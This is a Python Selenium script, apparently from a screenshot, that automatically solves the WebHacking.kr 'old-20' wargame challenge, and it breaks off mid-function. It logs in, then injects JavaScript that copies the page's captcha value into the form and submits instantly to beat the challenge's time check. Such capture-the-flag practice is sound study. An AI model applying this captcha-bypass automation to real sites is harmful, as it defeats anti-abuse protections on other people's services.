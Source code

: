 def webhacking_old20_solver():
    """WebHacking.kr old-20 자동 해결"""

    USERNAME = "your_username"
    PASSWORD = "your_password"

    driver = webdriver.Chrome()

    try:
        print("=== WebHacking.kr old-20 자동 공격 ===")

        # 1. 로그인
        driver.get('https://webhacking.kr/')
        time.sleep(2)

        # Bootstrap 모달 열기
        driver.find_element(By.CSS_SELECTOR, 'a[data-bs-target="#loginModal"]').click()
        time.sleep(1)

        # 로그인 정보 입력
        driver.find_element(By.CSS_SELECTOR, '#loginModal input[name="id"]').send_keys(USERNAME)
        driver.find_element(By.CSS_SELECTOR, '#loginModal input[name="pw"]').send_keys(PASSWORD)
        driver.find_element(By.CSS_SELECTOR, '#loginModal input[type="submit"]').click()
        time.sleep(3)

        # 2. 문제 페이지로 이동
        driver.get('https://webhacking.kr/challenge/code-4/')
        time.sleep(2)

        # 3. JavaScript로 초고속 처리
        driver.execute_script("""
            // 캡챠값 즉시 복사 및 모든 필드 입력
            var captchaValue = document.querySelector('input[name="captcha_"][type="button"]').value;
            document.getElementsByName('id')[0].value = 'webhacking';
            document.getElementsByName('cmt')[0].value = 'hahahahahahaha';
            document.getElementsByName('captcha')[0].value = captchaValue;

            // 즉시 제출
            document.querySelector('input[value="Submit"]').click();
        """)

        print("제출 완료! 결과 확인 중...")

        # 4. 결과 확인
        try:
            alert = WebDriverWait(driver, 10).until(EC.alert_is_present())
            result = alert.text
            print(f"결과: {result}")
